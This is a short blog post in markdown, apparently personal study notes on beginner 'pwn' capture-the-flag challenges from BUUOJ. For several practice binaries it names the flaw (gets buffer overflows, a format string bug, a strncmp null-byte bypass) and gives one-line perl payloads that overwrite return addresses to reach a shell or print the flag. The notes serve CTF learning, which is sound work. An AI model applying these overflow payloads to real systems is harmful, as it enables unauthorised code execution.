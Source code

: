 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn 入门"
date:   2020-07-16 00:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault???
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. amd64, C `gets`
   2. overwrite a variable and bypass
   3. floating point number comparison
      1. more info about `xmm0` [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE#Registers):
         1. [saturation arithmetic](https://en.wikipedia.org/wiki/Saturation_arithmetic) and [clamping](https://en.wikipedia.org/wiki/Clamping_(graphics))
         2. SIMD instructions
   4. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. ciscn_2019_c_1: [post]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
7. [OGeek2019]babyrop
   1. x86, C `read`
   2. bypass `strncmp` using `\x00` to truncate string
   3. [script]({{ site.url }}/assets/OGeek2019_babyrop.py)
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. get_started_3dsctf_2016:
   1. x86, c `gets`, NX enabled
   2. `get_flag` and peaceful exit
   3. [script]({{ site.url }}/assets/get_started_3dsctf_2016.py)
10. [第五空间2019 决赛]PWN5:
    1.  x86, NX enabled, canary found, `printf`
    2.  [**format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
    3.  [script]({{ site.url }}/assets/5space_pwn5.py)
11. jarvisoj_level0:
    1.  amd64, NX enabled, `read`
    2.  `system` given in plt
    3.  [script]({{ site.url }}/assets/5space_pwn5.py)
